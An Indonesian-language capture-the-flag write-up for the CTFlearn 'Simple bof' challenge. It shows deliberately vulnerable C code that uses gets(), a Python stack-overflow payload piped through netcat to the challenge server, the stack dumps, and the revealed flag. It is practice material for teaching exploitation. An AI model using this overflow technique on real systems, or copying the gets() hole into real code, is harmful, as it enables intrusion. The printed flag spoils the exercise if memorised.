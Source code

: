 # Simple bof (10 Points)
Want to learn the hacker's secret? Try to smash this buffer!
<br>
You need guidance? Look no further than to Mr. Liveoverflow. He puts out nice videos you should look if you haven't already
<br>
nc thekidofarcrania.com 35235
# Solved
Cek source nya
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// Defined in a separate source file for simplicity.
void init_visualize(char* buff);
void visualize(char* buff);
void safeguard();

void print_flag();

void vuln() {
  char padding[16];
  char buff[32];
  int notsecret = 0xffffff00;
  int secret = 0xdeadbeef;

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Zero-out the padding.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff); 

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff); 

  // Check if secret has changed.
  if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");
    print_flag(); // Print out the flag. You deserve it.
    return;
  } else if (notsecret != 0xffffff00) {
    puts("Uhmm... maybe you overflowed too much. Try deleting a few characters.");
  } else if (secret != 0xdeadbeef) {
    puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  } else {
    puts("Maybe you haven't overflowed enough characters? Try again?");
  }

  exit(0);
}

int main() {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  safeguard();
  vuln();
}
```
Disini kita di berikan <b>32 Byte</b> untuk melakukan Overflow, dan saat menjalankan server tersebut sudah tersedia dimana address / offset yang harus kita overflow
```console
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xff912218 | 00 00 00 00 00 00 00 00 |
0xff912220 | 00 00 00 00 00 00 00 00 |
0xff912228 | 00 00 00 00 00 00 00 00 |
0xff912230 | 00 00 00 00 00 00 00 00 |
0xff912238 | ff ff ff ff ff ff ff ff |
0xff912240 | ff ff ff ff ff ff ff ff |
0xff912248 | ef be ad de 00 ff ff ff |
0xff912250 | c0 45 78 f7 84 7f 58 56 |
0xff912258 | 68 22 91 ff 11 5b 58 56 |
0xff912260 | 80 22 91 ff 00 00 00 00 |
```
Ini code python yang saya gunakan
```python
import struct

BUFF = 48
payload = ("A" * BUFF) + struct.pack("<I", 0x67616c66) # Target

print payload
```
Kemudian jalankan
```console
$ python solve.py | nc thekidofarcrania.com 35235

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xff912218 | 00 00 00 00 00 00 00 00 |
0xff912220 | 00 00 00 00 00 00 00 00 |
0xff912228 | 00 00 00 00 00 00 00 00 |
0xff912230 | 00 00 00 00 00 00 00 00 |
0xff912238 | ff ff ff ff ff ff ff ff |
0xff912240 | ff ff ff ff ff ff ff ff |
0xff912248 | ef be ad de 00 ff ff ff |
0xff912250 | c0 45 78 f7 84 7f 58 56 |
0xff912258 | 68 22 91 ff 11 5b 58 56 |
0xff912260 | 80 22 91 ff 00 00 00 00 |

Input some text:
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xff912218 | 41 41 41 41 41 41 41 41 |
0xff912220 | 41 41 41 41 41 41 41 41 |
0xff912228 | 41 41 41 41 41 41 41 41 |
0xff912230 | 41 41 41 41 41 41 41 41 |
0xff912238 | 41 41 41 41 41 41 41 41 |
0xff912240 | 41 41 41 41 41 41 41 41 |
0xff912248 | 66 6c 61 67 00 ff ff ff |
0xff912250 | c0 45 78 f7 84 7f 58 56 |
0xff912258 | 68 22 91 ff 11 5b 58 56 |
0xff912260 | 80 22 91 ff 00 00 00 00 |

You did it! Congratuations!
CTFlearn{buffer_0verflows_4re_c00l!}
```
Flag : <b>CTFlearn{buffer_0verflows_4re_c00l!}</b>
